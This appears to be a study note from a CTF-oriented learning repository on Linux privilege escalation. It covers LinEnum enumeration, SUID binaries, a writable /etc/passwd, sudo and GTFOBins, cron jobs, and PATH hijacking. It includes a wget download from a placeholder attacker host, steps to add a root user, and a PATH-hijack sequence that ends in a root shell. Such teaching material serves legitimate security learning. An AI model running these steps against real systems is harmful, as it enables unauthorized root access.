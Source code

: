```yaml
---
title: "08. Common Linux Privesc"
section: "linux"
date: 2022-03-13
tags: ["enumeration", "suid", "cron"]
---
```


## Understanding Priesc

> What does Privilege Escalation mean ?
Privilege escalation involves elevating permissions from lower to higher levels. It typically entails exploiting vulnerabilities, design flaws, or configuration oversights within an operating system or application. This exploitation allows unauthorized access to resources typically restricted from users.

> Why is it important ?
Privilege escalation is crucial, because it lets you gain system administrator levels of access. This allow you to do many things, including: Reset passwords, bypass access control, change privilege of user, get cheeky root flag and much more.

## Direction of Privilege Escalation

![len8_1](media/len8_1.png)

### Horizontal Privilege Escalation

- Horizontal privilege escalation involves expanding control within the compromised system by hijacking a user with the same privilege level as yours. For instance, a normal user taking over another normal user, rather than escalating to superuser. 
- This grants access to the files and privileges of the hijacked user. 
- It can be leveraged to access another normal user with an SUID file in their home directory, enabling superuser access.

### Vertical Privilege Escalation

- Vertical privilege escalation, or privilege elevation, involves seeking higher privileges or access using an already compromised account. 
In local privilege escalation attacks, this entails hijacking an account with administrator or root privileges.

## Enumeration

### LinEnum

LinEnum is a bash script simplifying privilege escalation tasks by executing common commands, freeing up time to focus on gaining root access.

You can get script from[here].(https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

**How to get LinEnum on target**

```bash
# start python webserver on attacker machine

python3 -m http.server 8000

# use wget on target machine to get file.

wget http://attacker_ip:8000/LinEnum.sh

# give +x permission to linenum.sh

chmod +x LinEnum.sh

```

## Abusing SUID/GUID Files

- In Linux privilege escalation, the initial step is to examine files with the SUID/GUID bit set, 
- SUID bit allow them to run with the owner/group's permissions, typically as the super-user. 
- This enables us to obtain a shell with elevated privileges.

the permissions to look for when looking for SUID is:

```bash
SUID: rws-rwx-rwx
GUID: rwx-rws-rwx
```

- Find SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Exploiting Writeable /etc/passwd

- The /etc/passwd file holds crucial login information, including user account details, such as user ID, group ID, home directory, and shell. It's a plain text file that provides essential data for system accounts.
- The /etc/passwd file typically requires general read permission for command utilities to map user IDs to user names. 
- However, write access should be restricted to the superuser/root account only. 
- If this permission isn't properly configured or if a user is mistakenly added to a group with write access, a vulnerability arises. This vulnerability can potentially enable the creation of a root user that we can access.

**Understand /etc/passwd format**

`test:x:0:0:root:/root:/bin/bash
`

1. Username : users username. should be between 1 and 32 characters in length.
2. Password : An x character indicates that encrypted password is stored in /etc/shadow file
3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc.
6. Home directory: The absolute path to the directory the user will be in when they log in
7. Command/shell: The absolute path of a command or shell (/bin/bash).


> How to exploit /etc/passwd ?
if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

## Misconfigured Binaries and GTFOBins

- This exploit hinges on the thoroughness of our user account enumeration. In CTF scenarios, it's crucial to utilize `sudo -l` to list commands accessible as a superuser for each account. 
- Occasionally, this reveals the ability to execute commands as a root user without requiring the root password. Such discoveries facilitate privilege escalation.

- [GTFOBins](https://gtfobins.github.io/)


## Exploiting Crontab

- The Cron daemon is like a time-based task manager. It runs continuously and executes commands at set dates and times. You can schedule tasks to run once or repeatedly by creating a crontab file that contains the commands and instructions for Cron to follow.

- scheduled cronjobs are stored in `cat /etc/crontab` file or you can use LinEnum script to find out cronjob.

### Format of Cronjob

```bash
#  m   h dom mon dow user  command
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

```

| Sign    | Description                       |
| ------- | --------------------------------- |
| #       | ID                                |
| m       | Minutes                           |
| h       | hour                              |
| dom     | Day of the month                  |
| mon     | month                             |
| dow     | day of the week                   |
| user    | What user the command will run as |
| command | what command should be run.       |

## PATH Variable

- The PATH variable in Linux and Unix-like systems defines directories containing executable programs. When a user runs a command in the terminal, the system searches for executable files in directories listed in the PATH variable to execute the command.
- you can view path of relevant user with `echo $PATH`

### Example

1. suppose we have `script` file with suid bit set and owned by root.

```bash
user5@polobox:/tmp$ ls -l /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user5/script
```

2. when we run program `./script`, it execute `ls` cmd.

```bash
user5@polobox:~$ cd
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
user5@polobox:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
```

3. Now we need to create `ls` file into `/tmp` folder.

```bash
echo "[whatever command we want to run]" > [name of the executable we're imitating]
```

```bash
echo "/bin/bash" > ls
```

4. Make it executable

```bash
chmod +x ls
```

5. Change PATH variable so that it points to the directory where we have our `ls` file stored.

```bash
export PATH=/tmp:$PATH
```

6. Run the `./script` again and you will get root shell.

